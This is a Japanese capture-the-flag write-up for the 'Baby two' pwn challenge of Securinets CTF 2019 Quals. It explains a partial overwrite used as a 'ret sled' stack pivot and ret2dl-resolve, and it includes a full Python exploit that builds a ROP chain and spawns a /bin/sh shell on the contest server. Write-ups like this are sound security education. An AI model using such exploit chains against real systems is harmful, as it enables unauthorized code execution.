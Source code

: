 # [pwn 1000pts] Baby two - Securinets CTF 2019 Quals
32ビットバイナリです．
というか最初は64ビットだったのですが競技中に32ビットに変えられました．
さらに運営が単にm32をつけてコンパイルし直しただけなので想定解で解けるかチェックされておらず，想定より難しい問題となってしまったそうです．
libcは配布されていませんが，競技中はBaby oneと同じlibcを使ったら解けました．
```
$ checksec baby1
[*] 'baby1'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```
内容はbaby oneとほとんど同じですが，writeがなくなっています．
そのため出力用の関数がなく，libcのアドレスをリークすることができません．
状況的にはlibcのバージョンが特定できない状況と同じなので，ret2dl-resolveが使えます．
この手法は，libc(ld-linux)がGOTに載せる関数のアドレスを解決する際に使われる関数を使って，system関数のアドレスを解決させ，そのまま呼び出す手法です．
詳しくはここでは説明しませんが，一回書けば他の問題にもすぐに再利用できます．

これで万事解決と思いたいのですが，mainの最後は次のようになっています．
```nasm
...
call    _read
add     esp, 10h
nop
mov     ecx, [ebp+var_4]
leave
lea     esp, [ecx-4]
retn
```
リターンアドレスのあるポインタを指したデータがあるスタックのアドレスがecxに入るので，これを正しいアドレスにしないといけません．
このアドレスの先にあるデータがリターンアドレスとして解釈されるのです．
32bitなのでスタックアドレスを総当りしても良いと思いますが，競技中にもう少し効率的な方法を思いつきました．

`var_4`はバッファの先にあるので，これを部分的にオーバーフローさせることができます．
したがって，`var_4`の下位1バイトを書き換え，バッファのアドレスを指してやります．
バッファは0x2Cバイトあるのでスタックアドレスを特定するよりも遥かに高い確率で当たります．
バッファの最初の方をretだけのガジェットで埋めておき，最後にROPコードをreadしてスタックピボットするROPを入れておけば，高い確率で次のROPへ移ることができます．
一度Stage 2のROPが実行できれば，あとは適当にret2dl-resolveをするだけです．

スタックの状態は次のようになります．
```
         |         |
but ---> |  &ret   |
         |  &ret   |
         |  &ret   |
buf+? -> |  &ret   |
         |  &ret   |
            ...
         |ROP chain|
         |  buf+?  |
             ...
         | retaddr |
         |         |
```
こういう手法って今までにあるのかな？
私は勝手にret sledと呼んでいます．

あとは何段階かに分けてret2dl-resolveを実行しましょう．
```python
from ptrlib import *
import time

elf = ELF("./baby2")

addr_plt = 0x08048320
addr_start = elf.symbol("_start")

addr_relplt = elf.section(".rel.plt")
addr_dynsym = elf.section(".dynsym")
addr_dynstr = elf.section(".dynstr")
addr_bss    = elf.section(".bss")

rop_pop3 = 0x08048509
rop_ret = 0x080482fa

fname = "system\x00"
farg  = "/bin/sh\x00"

plt_read = 0x08048330
base_stage = addr_bss + 0x800
addr_reloc = addr_bss + 0xa00
addr_sym   = addr_bss + 0xa80 | (addr_dynsym & 0xF)
addr_str   = addr_bss + 8
addr_arg   = addr_str + len(fname)

# Elf32_Rel
reloc = p32(elf.got('setvbuf'))
reloc += p32((((addr_sym - addr_dynsym) // 0x10) << 8) | 7)
# Elf32_Sym
sym = p32(addr_str - addr_dynstr)
sym += p32(0)
sym += p32(0)
sym += p32(0x12)

def craft_read(addr, size):
    payload = p32(plt_read)
    payload += p32(rop_pop3)
    payload += p32(0)    # fd
    payload += p32(addr) # buf
    payload += p32(size) # size
    return payload

#sock = Socket("127.0.0.1", 4001)
sock = Socket("51.254.114.246", 2222)

""" Stage 1 (probabilistic write) """
payload1 = b''
payload1 += p32(rop_ret) * ((0x2c - 6 * 4) // 4)
payload1 += craft_read(base_stage, 0x100) # 5 * 4
payload1 += p32(addr_start)               # 4
payload1 += bytes([0x20])

""" Stage 2 (stack pivot) """
payload2 = b'A' * 0x2c
payload2 += p32(base_stage + 4)
payload2 += b'\x00' * (0x12c - len(payload2))

""" Stage 3 (craft) """
reloc_offset = addr_reloc - addr_relplt

payload3 = b''
payload3 += craft_read(addr_reloc, 0x8)
payload3 += craft_read(addr_sym, 0x10)
payload3 += craft_read(addr_str, len(fname))
payload3 += craft_read(addr_arg, len(farg))
payload3 += p32(addr_plt)
payload3 += p32(reloc_offset)
payload3 += b"XXXX"
payload3 += p32(addr_arg)
payload3 += b"\x00" * (0x100 - len(payload3))

# Stage 1
sock.send(payload1)
time.sleep(0.5)
sock.send(payload3)

# Stage 2
sock.send(payload2)

# Stage 3
sock.send(reloc)
sock.send(sym)
sock.send(fname)
sock.send(farg)

sock.interactive()
```

# 感想
競技中も運営のミスだということは気づいていたので「早くなおせよー」ってなっていましたが，解けてしまったので結局最後まで修正は入りませんでした．
競技中，この方法に気づいた後にexploitコードを書いたら一発で通ったので焦りました．
